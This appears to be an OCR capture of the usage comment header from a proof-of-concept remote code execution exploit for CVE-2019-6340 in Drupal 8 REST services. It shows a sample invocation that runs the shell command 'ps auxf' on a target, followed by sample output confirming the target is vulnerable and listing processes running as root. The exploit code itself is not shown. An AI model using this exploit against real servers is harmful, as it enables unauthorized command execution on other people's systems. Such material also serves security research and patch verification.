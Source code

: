     # Sample usage:
    #
    # $ python cve-2019-6340.py http://127.0.0.1/ "ps auxf"
    # CVE-2019-6340 Drupal 8 REST Services Unauthenticated RCE PoC
    #  by @leonjza
    #
    # References:
    #  https://www.drupal.org/sa-core-2019-003
    #  https://www.ambionics.io/blog/drupal8-rce
    #
    # [warning] Caching heavily affects reliability of this exploit.
    # Nodes are used as they are discovered, but once they are done,
    # you will have to wait for cache expiry.
    #
    # Targeting http://127.0.0.1/...
    # [+] Finding a usable node id...
    # [x] Node enum found a cached article at: 2, skipping
    # [x] Node enum found a cached article at: 3, skipping
    # [+] Using node_id 4
    # [+] Target appears to be vulnerable!
    #
    # USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    # root        49  0.0  0.0   4288   716 pts/0    Ss+  16:38   0:00 sh
    # root         1  0.0  1.4 390040 30540 ?        Ss   15:20   0:00 apache2 -DFOREGROUND